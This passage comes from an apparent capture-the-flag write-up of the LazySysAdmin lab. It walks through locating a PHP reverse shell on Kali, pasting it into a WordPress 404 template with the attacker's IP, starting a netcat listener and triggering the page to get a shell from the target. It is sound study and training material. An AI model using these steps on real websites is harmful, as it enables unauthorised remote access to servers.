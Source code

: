 ```bash
# We can locate our php-reverse-shell on kali linux with this command
┌──(kali㉿kali)-[~]
└─$ locate php-reverse-shell 
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php


# Then open the file with mousepad
┌──(kali㉿kali)-[~]
└─$ mousepad /usr/share/webshells/php/php-reverse-shell.php

```

## Jesus Christ! I nearly had a heart attack! 💓💔🫣😨😱❤️‍🩹

*Note to self... never add the snippet of the whole php-reverse shell inside your notes!! Windows Defender will detect the content inside the file and take your whole document and put it into `C:\ProgramData\Microsoft\Windows Defender\Quarantine`*

![LazySysAdmin](Lazy_defender.png)

Alright... back to our CTF.... Thank God I didn't lose all my precious work! I have been writing for hours now!

Alright... Copy the entire script `php-reverse-shell` to the 404 template on Word Press

remember to change the value of the variables $ip and $port...
In my case $ip = '192.168.56.52' I keep the port as is.

#### Now save the changes, then open a terminal and initiate net cat to start listening 🎧🔈🐈‍⬛🐈
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                 
listening on [any] 1234 ...

# Now we just have to make a 404 error on the website! This should not be rocket science to do? 🚀👨‍🚀
# With the URL of: `http://192.168.56.34//wordpress/wp-content/themes/twentyfifteen/404.php`
# we can force the error

# And now something happened on with our net cat listener!
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                 
listening on [any] 1234 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.34] 42614
```